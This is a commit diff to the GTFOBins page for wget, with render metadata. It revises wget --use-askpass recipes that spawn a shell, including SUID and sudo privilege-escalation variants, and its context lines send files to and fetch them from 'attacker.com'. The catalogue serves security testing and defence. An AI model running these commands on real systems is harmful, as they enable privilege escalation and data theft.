

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/wget.md, in a window 1280 px wide and 900 px high, scrolled down 1345 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 2095 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Simplify wget --use-askpass invocation

```diff
--- a/_gtfobins/wget.md
+++ b/_gtfobins/wget.md
@@ -1,5 +1,11 @@
 ---
 functions:
+  shell:
+    - code: |
+        TF=$(mktemp)
+        chmod +x $TF
+        echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
+        wget --use-askpass=$TF 0
   file-upload:
     - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
       code: |
@@ -24,32 +30,16 @@ functions:
         URL=http://attacker.com/file_to_get
         LFILE=file_to_save
         wget $URL -O $LFILE
-  shell:
+  suid:
     - code: |
         TF=$(mktemp)
-        echo -e '#!/bin/sh\nsh 1>&0 2>&0' > $TF
         chmod +x $TF
-        wget -v --use-askpass=$TF 0
-  suid:
-    - code: |
-        TF1=$(mktemp --suffix .c)
-        cat << EOI > $TF1
-        #include <stdio.h>
-        #include <sys/types.h>
-        #include <unistd.h>
-        int main() {
-          setuid(0);
-          setgid(0);
-          system("/bin/sh 1>&0 2>&0");
-        }
-        EOI
-        TF2=$(mktemp)
-        gcc -o $TF2 $TF1
-        wget --use-askpass=$TF2 0
+        echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
+        ./wget --use-askpass=$TF 0
   sudo:
     - code: |
         TF=$(mktemp)
-        echo -e '#!/bin/sh\nsh 1>&0 2>&0' > $TF
         chmod +x $TF
-        sudo wget -v --use-askpass=$TF 0
+        echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
+        sudo wget --use-askpass=$TF 0
 ---
```
